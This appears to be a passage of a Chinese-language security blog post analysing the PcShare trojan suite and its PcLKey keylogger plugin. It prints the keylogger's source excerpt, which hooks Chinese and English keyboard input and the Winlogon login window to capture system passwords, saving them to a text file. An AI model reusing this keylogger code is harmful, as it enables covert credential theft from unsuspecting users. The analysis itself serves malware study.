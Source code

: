 PcMake 连接型DLL小马

PcMain 主功能控制插件

PcShare 主控程序带界面

我们先看下会员版本配置界面，然后在开始分析。你可以发现会员版本和早期拿到的版本不一样，有一个捆绑文件功能，而这个功能有一个亮点“压缩编码”。想知道？继续看

![enter image description here](http://drops.javaweb.org/uploads/images/7d70d24fc9df5ca70532b17d45555a4358c5874c.jpg)

PcLKey键盘记录插件 编译文件名：PcLkey.dll 这款键盘记录插件的特色就是可以记录中文英文等，而且可以尝试记录系统登录密码。服务启动SYSTEM权限的，登陆系统密码记录应该是支持XP/2003的，具体大家测测看。

以下是启动监控中文和英文及登录窗口输入记录，处理流程代码。 离线键盘记录数据文件以*.dll.txt存储，和dll一个目录。

```
    //数据文件名称
    *pEnd = 0x00;
    lstrcat(m_ModuleFileName, ".txt");
    strcpy(m_KeyFilePath, m_ModuleFileName);

    HDESK hOldDesktop = GetThreadDesktop(GetCurrentThreadId());

    //监控中文和英文
    HDESK hNewDesktop = OpenDesktop("Default", 0, FALSE, MAXIMUM_ALLOWED);
    if(hNewDesktop != NULL)
    {
        SetThreadDesktop(hNewDesktop);
    }

    if(NULL == g_hKeyHK_CN)
    {
        g_hKeyHK_CN = SetWindowsHookExW(WH_CALLWNDPROC, HOOK_WM_IME_COMPOSITION_Proc, ghInstance, 0);
    }
    if(NULL == g_hKeyHK_EN)
    {
        g_hKeyHK_EN = SetWindowsHookExW(WH_GETMESSAGE, HOOK_WM_CHAR_Proc, ghInstance, 0);
    }

    GetModuleFileName(NULL, m_ModuleFileName, 255);
    CharLower(m_ModuleFileName);
    if(strstr(m_ModuleFileName, "svchost.exe") != NULL)
    {
        //监控登录窗口
        hNewDesktop = OpenDesktop("Winlogon", 0, FALSE, MAXIMUM_ALLOWED);
        if(hNewDesktop != NULL)
        {
            SetThreadDesktop(hNewDesktop);
        }
        if(NULL == g_hKeyHK_LG)
        {
            g_hKeyHK_LG = SetWindowsHookExW(WH_GETMESSAGE, HOOK_WM_CHAR_LOGIN_Proc, ghInstance, 0);
        }
        SetThreadDesktop(hOldDesktop);
    }

```
